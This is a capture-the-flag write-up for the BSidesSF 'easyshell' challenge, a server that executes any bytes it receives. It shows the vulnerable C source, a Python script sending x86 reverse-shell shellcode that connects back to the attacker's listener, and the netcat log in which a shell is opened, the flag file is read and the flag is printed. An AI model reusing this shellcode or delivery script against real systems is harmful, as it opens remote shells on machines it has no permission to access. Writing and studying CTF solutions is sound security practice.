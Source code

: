 # easyshell

## Challenge

> The server will run any code you send it. Easy peaasy!

> The flag is in /home/ctf/flag.txt

> nc easyshell-f7113918.ctf.bsidessf.net 5252

> [easyshell.zip](easyshell.zip)

## Solution
Upon examining the source code of the easyshell program it becomes clear that whatever we send the program will be read into a buffer and executed using the asm() C/C++ function used to embed and execute assembler instructions.

```
int main(int argc, char *argv[])
{
  uint8_t *buffer = mmap(NULL, LENGTH, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, 0, 0);
  ssize_t len;

  alarm(10);

  disable_buffering(stdout);
  disable_buffering(stderr);

  printf("Send me stuff!!\n");
  len = read(0, buffer, LENGTH);

  if(len < 0) {
    printf("Error reading!\n");
    exit(1);
  }

  asm("call *%0\n" : :"r"(buffer));

  return 0;
}
```

After experimenting with different kinds of shellcode I decided that a reverse connection was the appropriate approach so I wrote a small python script to send the shellcode. (Shellcode taken from: http://shell-storm.org/shellcode/files/shellcode-833.php)

```
#!/usr/bin/env python

import socket

remote_host = 'easyshell-f7113918.ctf.bsidessf.net'
remote_port = 5252

local_host = "\xc6\xc6\xc6\xc6" # IP
local_port = "\xd9\x03"         # 55555 (Port)

shellcode = "\x68" + local_host + "\x5e\x66\x68" + local_port + "\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\xeb\xce"

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    client.connect((remote_host,remote_port))

    data = client.recv(1024)
    print data
    
    client.send(shellcode)
    print "[*] Shellcode sent."

except socket.error, e:
    print e 
```

I ran a netcat listener and upon receiving a connection it succesfully spawned a shell and the flag could be read.
```
Listening on [0.0.0.0] (family 0, port 55555)
Connection from [104.196.247.127] port 55555 [tcp/*] accepted (family 2, sport 33950)
cat /home/ctf/flag.txt
FLAG:c832b461f8772b49f45e6c3906645adb
```
